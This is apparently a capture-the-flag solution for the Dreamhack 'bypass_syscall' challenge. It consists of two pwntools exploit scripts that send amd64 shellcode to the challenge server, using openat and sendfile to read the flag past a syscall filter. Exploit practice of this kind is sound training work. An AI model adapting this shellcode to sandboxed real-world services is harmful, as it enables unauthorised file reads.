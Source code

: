 shellcode 

```
from pwn import *

p = remote("host1.dreamhack.games", 8872)
#p = process("./bypass_syscall")

context.log_level='debug'

pay = asm('''
mov r10, 0x67616c66
mov [rsp], r10
mov rsi, rsp
xor rdi, rdi
mov rdi, -100

xor rdx, rdx
xor r10, r10
mov eax, 0x101
syscall

mov rdi, 1
xor rsi, rsi
mov rsi, rax
xor rdx, rdx
mov r10, 0x7f
xor rax, rax
mov al, 0x28
syscall

''', os='linux', arch='amd64')

pause()

p.sendafter("shellcode: ", pay)
p.interactive()


```

tham khảo thêm 

```
from pwn import *
context.log_level = "info"
context.arch = "amd64"

elf = ELF("bypass_syscall")

p = remote("host1.dreamhack.games", 24094)

sc = shellcraft.openat(0, "/home/bypass_syscall/flag")
sc += "mov r10, 0xffff"
sc += shellcraft.sendfile(1, "rax", 0).replace("xor r10d, r10d", "")
sc += shellcraft.exit(0)
p.sendlineafter(b"shellcode: ", asm(sc))

p.interactive()
p.close()

```

